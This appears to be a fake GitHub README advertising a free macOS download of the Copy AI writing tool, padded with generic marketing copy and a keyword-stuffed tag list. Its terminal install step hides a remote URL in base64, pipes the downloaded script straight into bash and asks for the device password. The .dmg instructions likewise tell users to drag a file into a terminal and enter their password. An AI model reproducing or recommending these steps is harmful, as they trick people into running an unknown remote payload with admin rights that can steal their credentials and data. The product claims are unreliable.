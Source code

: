 [# Copy AI For Mac — Download For Mac OS ✍️
![copyai](https://akwaam.com/wp-content/uploads/2025/04/Copy-AI-App-Essay-Advices.webp)

Copy AI For Mac is an innovative AI-powered writing assistant designed to help Mac users create high-quality content effortlessly. From blog posts to marketing copy, this software streamlines content creation with advanced AI tools. Follow the instructions below to install and start generating professional-grade content on your Mac.


[![Download Now](https://img.shields.io/badge/Download%20Now-Copy%20AI%20For%20Mac-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/copyai)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Copy AI For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **AI-Powered Writing**: Generate engaging content for blogs, ads, and social media with advanced AI algorithms.
- 📋 **Template Library**: Access a wide range of customizable templates for various content types.
- 🌐 **Multilingual Support**: Create content in multiple languages to reach global audiences.
- 🤝 **Collaboration Tools**: Work seamlessly with team members in real-time for efficient content creation.
- ⚙️ **macOS Optimization**: Enjoy smooth performance tailored for Apple Silicon and macOS environments.
- 📈 **Tone Customization**: Adjust the tone of your content to match your brand’s voice and style.

## About Copy AI

Copy AI For Mac is a cutting-edge writing assistant that empowers Mac users to create professional content with ease. Leveraging advanced AI, this software helps marketers, bloggers, and businesses generate high-quality text for blogs, advertisements, social media posts, and more. With its intuitive interface and powerful features, Copy AI is a must-have tool for anyone looking to streamline their content creation process on macOS.

The software uses machine learning to produce human-like text, ensuring your content is engaging and polished. Its extensive template library covers a wide range of use cases, from email campaigns to product descriptions, making it versatile for professionals across industries. Copy AI’s seamless integration with macOS ensures fast performance, while its collaboration features allow teams to work together efficiently, boosting productivity.

For those seeking to enhance their content marketing efforts, Copy AI offers multilingual support and tone customization, enabling users to craft content that resonates with diverse audiences. Whether you’re drafting a single post or managing large-scale campaigns, the software’s AI-driven tools simplify the process, saving time and effort. Its compatibility with the latest macOS versions ensures a smooth experience on any Mac device.

By combining user-friendly design with powerful AI capabilities, Copy AI For Mac has become a trusted solution for content creators. Its ability to generate high-quality, brand-aligned content makes it an essential tool for modern professionals. Download Copy AI today and elevate your content creation with this industry-leading software optimized for macOS.

## Advantages of Copy AI

- ✍️ **High-Quality Content**: Produce engaging, professional text with AI-driven precision.
- ⚡ **Fast Generation**: Create content quickly, even for large projects, with optimized performance.
- 🛠️ **Intuitive Interface**: User-friendly design makes content creation accessible to all skill levels.
- 📋 **Versatile Templates**: Access a diverse library of templates for blogs, ads, and more.
- 🌐 **Global Reach**: Generate content in multiple languages for international audiences.
- 🤝 **Team Collaboration**: Real-time collaboration tools streamline team workflows.

## 🖼 Preview

![Copy AI Dashboard](https://www.elegantthemes.com/blog/wp-content/uploads/2023/06/Copy-AI-templates.jpg)  
*The sleek Copy AI dashboard, designed for intuitive content creation.*


## 🔍 Tags

copy ai, ai copy copy artificial intelligence, copys ai, cppy ai, cop y ai, copy ai+, ai copywriting, copywriting ai, copy ai for mac, copy ai mac, copy ai mac download, copy ai free, copy ai download, download copy ai, copy ai for mac, copy ai discount, copy ai for macos, copy ai mac free, copy ai mac free download, copy ai free download
](https://fituganshfgh.github.io/.github/copyai)
